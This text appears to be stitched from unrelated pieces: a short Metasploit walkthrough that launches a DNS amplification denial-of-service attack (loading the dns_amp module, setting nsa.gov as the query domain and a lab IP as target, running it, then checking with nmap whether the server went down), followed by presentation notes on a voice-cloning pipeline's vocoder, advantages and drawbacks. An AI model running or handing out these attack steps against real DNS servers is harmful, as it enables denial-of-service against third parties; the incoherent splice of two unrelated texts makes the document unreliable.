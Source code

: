 Now, we use DNS Amplification attack

```bash
msfconsole
```

```bash
search dns_amp
```

```bash
use 0
```

```bash
info
```

```bash
set DOMAINNAME nsa.gov
```

Check RPORT if it is the same as the one we found in the nmap scan.

```bash
set RHOSTS 192.168.19.139
```

```bash
run
```

Checking if DNS server is on or lost (in other terminal)

```bash
sudo nmap 192.168.19.139 -sU -p 53
```





8) The vocoder is used to generate audio output from the mel-spectrogram. Its based on wavenet model. Since the
the conversion is lossy, it requires a model dedicated to this conversion.

next

9) following are the adv of using this method:
all the 3 models can be trained independently

the synthesizer conditioned on these features helps us retain human like voice features on the audio.

generation of audio sample with the minimal length audio sample is possible. the model doesnt require
minutes of audio.

next


10) following are the drawbacks and difficulties faced:
Generating feature vector is difficult and requires much more work on it.
Generating appropriate pauses is difficult. 
now lets look at project demonstration.
